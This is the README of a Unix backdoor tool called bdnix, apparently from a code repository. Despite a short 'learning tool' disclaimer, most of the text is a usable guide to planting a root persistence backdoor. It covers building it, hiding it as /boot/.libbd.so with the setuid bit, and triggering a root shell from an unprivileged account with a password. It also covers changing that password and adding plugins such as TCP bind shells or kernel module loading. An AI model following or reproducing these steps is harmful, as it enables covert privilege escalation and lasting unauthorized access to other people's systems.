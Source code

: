 <pre>
 _         _       _      
| |       | |     (_)     
| |__   __| |_ __  ___  __
| '_ \ / _` | '_ \| \ \/ /
| |_) | (_| | | | | |>  < 
|_.__/ \__,_|_| |_|_/_/\_\
                          

Trivial userspace backdoor for Unix
Emanuele Paiano - nixw0rm@gmail.com

</pre>

<p>This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!</p>                      


<h2 class="section-heading">GETTING STARTED</h2>

<ul>
<li>
 <p>Open root terminal in current directory and go into bdnix folder</p>
  <pre>
	# cd /path/bdnix
  </pre>
</li>
<li>
<p>From root run 'make' to build binary file</p>
<pre>
	# make
</pre>
<p>
copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,</p>
<pre>
        # cp -p libbd.so /boot/.libbd.so
        # chmod +sx /boot/.libbd.so
</pre>       
<p>   and setuid file (chmod +x).</p>


</li>
<li><p>
	logout from server and log in again with unprivileged user. 
    </p>
</li>
<li>
<p> Run binary with </p>
<pre>
	$ /boot/.libbd.so joshua /bin/sh
</pre>
<p> if you see '#' then.. you are root! :)</p>




<h2 class="section-heading">CUSTOMIZE PASSWORD</h2>


Opening settings.h you can change default password "joshua" (can you remember WOPR?):

        #define ARG1 "joshua"

we can change it to "chips"

        #define ARG1 "chips"

Now recompiling (read above) and running with new password:

        $ /boot/.libbd.so chips /bin/sh
        #

If we have rootshell, it works! :)


<h2 class="section-heading">ENABLING PLUGINS</h2>

Plugins are .h file in plugins/ folders. By plugins you can add code portions and
add new functionaties to bdnix (i.e. binding shell on TCP port, loading kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:

        /* PLUGINS */

        /* enable rootshell */
        #define SHELL 1
        
2) Change 1 to enable, or 0 to disable code.

Example. If you have rootshell disabled and myplugin enabled:

        /* enable rootshell */
        #define SHELL 0
        
        /* my plugin */
        #define MYPLUGIN 1
        
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
all enabled plugins run in sequential mode. 

For adding or writing custom plugin, read WRITING A PLUGIN.


-------------------
 WRITING A PLUGIN
-------------------
1) If you need write plugin, you must create .h file into plugin using next template:

        int <PLUGIN_NAME>_init()
        {
          //code plugin
        }

   replacing <PLUGIN_NAME> with your plugin's name and write you code inside function. 

2) Open bdcode.c and find this code into main():

    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    
   and edit previos code in this:
   
    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    #if <PLUGIN_NAME> == 1
      <PLUGIN_NAME>_init();
    #endif

   removing <PLUGIN_NAME> with you plugin's name.

   TIPS EXAMPLE: You can start to write you plugin editing RAW plugin.



----------
 LICENSE
----------
Trivial userspace backdoor
Copyright (C) 2012  Emanuele Paiano
nixw0rm@gmail.com

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
